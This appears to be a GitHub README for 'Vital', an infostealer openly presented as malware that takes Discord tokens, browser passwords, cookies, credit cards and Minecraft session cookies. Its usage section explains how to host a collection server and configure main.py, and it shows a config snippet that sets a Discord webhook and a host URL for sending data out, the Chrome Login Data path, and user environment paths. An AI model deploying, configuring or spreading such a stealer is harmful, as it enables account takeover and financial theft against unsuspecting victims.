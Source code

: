# Vital
- What is Vital?
  > Vital is malware primarily used to collect and
  > extract information from the Discord desktop client.
  > While it has other features (MC stealer, browser tools)
  > it really shines in this area.

- Overview of Vital
  > Vital has the ability to steal browser passwords, cookies, and credit cards.
  > It also collects Discord tokens, Minecraft client cookies and can redirect
  > the Discord client to an alternative web address.

- Support / coverage
  > Vital supports a plethora of Discord clients and browsers,
  > from commonly used browsers such as Chrome and Firefox to
  > lesser used browsers such as (i don't know)

# Usage
Setup a webserver on either a local machine or a remote machine, hosting the
PHP file. Once you have your local server setup, make sure to configure everything
**__properly__** inside of `main.py`. 

- Example
```python
WEBHOOK 	    = 	'https://discord.com/webhooks/idontfuckingknow' 									      # Discord webhook URL
REDIRECT 	    = 	'' 									                                                    # Optional redirect to website
HOST	 	      = 	'http://mydomain.org/' 									                                # Server host URL (e.g: http://127.0.0.1/)
CHROME_DATA 	=	  '\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data'	    # Chrome login data path
USERNAME	    =	  os.environ.get('USERNAME')						                                  # Username environment variable
APPDATA		    =	  os.getenv('APPDATA')							                                      # Appdata environment variable

DEBUG 		    = 	False									                                                  # Enable or disable debugging
```

After this you can execute `main.py` and watch the magic happen!
